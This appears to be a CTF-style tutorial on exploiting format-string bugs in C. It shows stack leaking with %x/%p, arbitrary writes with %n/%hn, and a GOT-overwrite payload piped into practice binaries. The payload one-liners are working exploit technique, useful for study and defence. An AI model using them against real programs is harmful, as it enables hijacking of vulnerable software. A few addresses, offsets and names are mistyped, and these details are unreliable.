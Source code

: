 # Format string

 Format string exploit vulnerabilities in programs by abusing the '%x' power, reading and writing int the stack with printf() and sprintf() functions. It can leak sensitive information and even take control of the function.

### Table of Content

- [Before Exploit](#before-exploit)
- [Read the stack](#read-the-stack)
- [CyberChef helps you read in the stack](#website-helping-you-reading-the-stack)
- [OverWrite data](#overwrite-data)
- [write complex value](#write-complex-value)
- [Code execution redirect](#code-execution-redirect)
- [Documentation](#docum)

## Before exploit

To run this exploit you need find in the code a printf function family, without quote.

Example: ```printf(user_buffer);```

instead of ```printf("%s", user_buffer)```

## Read the stack 

imagine this code:

```c
  char local_20c [520];

  fgets(local_20c,0x200,stdin);
  printf(local_20c);
```

If you don't provide arg, and if you pass for example %x to prinf, it will read and print hexa from the next address on the stack.

You can print the entire stack. And read data.

![img](/pwn/img/error_printf.svg)
[website docu](https://axcheron.github.io/exploit-101-format-strings/)

### Read 64 bits stack

To read 8 bytes data, you can use ```%p``` or ```%lld```.

### Website helping you reading the stack

- [CyberChef](https://gchq.github.io/CyberChef/#recipe=Swap_endianness('Hex',8,true)From_Hex('Auto'))

## OverWrite Data 

You can overwrite data with printf and `%n`.

From the man: `The number of characters already written is stored in the integer pointed to by the argument of type int *. No argument is converted.`

```c
printf("AAAA%n", (int)a);
```

Will write, 4 in a.

4 because, it takes the value of 'AAAA' which is 4 bytes.

### OverWrite data with pointer to it

#### theory

When call to printf(), if there is no argument, you can try find through the stack, the pointer you want to overwrite.

```c
char *overwrite = "AAAA%34$n";
printf(overwrite);
```

Gonna overwrite 4 in the 4th address in the stack.

But if you don't know where is the pointer, or maybe it isn't on the stack, you can write in the buffer the address you wan't overwrite, and %n to exact addres of the start of the buffer.

#### Exploit

- find the start of the buffer:

```c
char *overwrite = "AAAA%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.";
printf(overwrite);

AAAA00000200.f7e26620.00000000.41414141.78383025.3830252e.30252e78.252e7838.2e783830.78383025.3830252e.30252e78.252e7838.
```

By printing the stack, we can see that the pointer to the buffer is a the 4th address in the stack. so if we write in the buffer an address, and point to it with $x we can overwrite data int it with $n.

```c
char *overwrite = "\x8c\x98\x04\x08%4$n";
printf(overwrite);
```

So this overwrite 4 at the address 0x08049888c.

If you want to print a special value inside the pointer, you can give it a padding using this ```%<size>x```

```c
char *overwrite = "\x8c\x98\x04\x08%60x%4$n";
printf(overwrite);
```

This will print 60 byte + 4 (address) into pointer.

## Write complex value

### Problem

If we want print complex value at specific address, imagine try print 0x01025544 at address 0x08049810.

Lets suppose the program is 32bit little endian.

0x01025544 = 16930116 (in decimal) 

So we should print a large padding, and it could take to much time.

### Theory

There is a technique to print data in 2 byte with printf(): `%hn` (h for half).

So let's focus first 0x0000(2 bytes) store at the address 08049810 then last 0x0000 08049810 + 2, fill them with respectively 0x5544 and 0x0102 (little endian). 

### Exploit

To sum up : 

```py
0x0102 = 258(in decimal) -> 08049810 + 2 + 08049812
0x5544 = 21828(in decimal) -> 08049810
```

To adjust the padding, we can follow this rule : 

`padding = [The value we want] - [The bytes alredy wrote] = [The value to set].`

High order first cause the value is lower:

High order 258 - 8 = 250 (both addresses are 4 bytes)

Low order 21828 - 258 = 21570

So final exploit is : 

```py
python3 -c 'import sys; sys.stdout.buffer.write(b"\x10\x98\x04\x08" + b"\x12\x98\x04\x08" + b"%250x" + b"%13$hn" + b"%21570x" + b"%12$hn")' | ./vuln
```

- `b"\x10\x98\x04\x08"` is the first address.
- `b"\x12\x98\x04\x08"` is the second address.

so `%12$x` point to first address and `%13$x` to the second.

- `b"%250x"` is the first padding (remember 250 + 8 byte address = 258 = 0x102)
- `b"%13$hn"` we store 258 inside the second address because its little endian.
- `b"%21570x"` is the second padding (0x5544 - 0x102)
- `b"%12$hn"` is the first address, we store the value.

Bingo, `\x10\x98\x04\x08` point to 0x1025544 !


## Code execution redirect

There is two way to redirect the code execution.

- Overwrite return pointer in the stack by [writing complex value](#write-complex-value)
- Overwrite function call before return pointer

Lets say, exit() is call before return. So you can't overwrite return pointer.

### GOT Overwrite

Basically, when the program is executed, the GOT (Global Offset Table) is initialized for every external functions (like libc functions). By doing so, the executable will cache the memory address in the GOT, so that it doesn’t have to ask libc each time an external function is called.

The goal here will be to overwrite the address of exit() in the GOT with the address of vuln_func(). There are 4 steps here :

- Find the address of o()
- Find the address of exit() in GOT
- Find the offset of our string on the stack
- Write the proper exploit string

```bash
iobjdump -R ./level5 | grep exit                                                     
08049838 R_386_JUMP_SLOT   exit@GLIBC_2.0

objdump -t ./level5 | grep vuln_func
080484a4 g     F .text	0000001e              vuln_func
```

You have the pointer to overwrite (0x08049838) with the value to overwrite (0x080484a4).

You can [overwrite the data](#overwrite-data-with-pointer-to-it) by using [this techinique to write large data](#write-complex-value)

Example of payload :

```bash
cat <(python3 -c 'import sys; sys.stdout.buffer.write(b"\x38\x98\x04\x08" + b"\x3a\x98\x04\x08" + b"%2044x" + b"%5$hn" + b"%31904x" + b"%4$hn")') - | ./vuln
```

### Docum

- [Insane Tuto](https://axcheron.github.io/exploit-101-format-strings/)

---

[**:arrow_right_hook: Back PWN**](/pwn/pwn.md)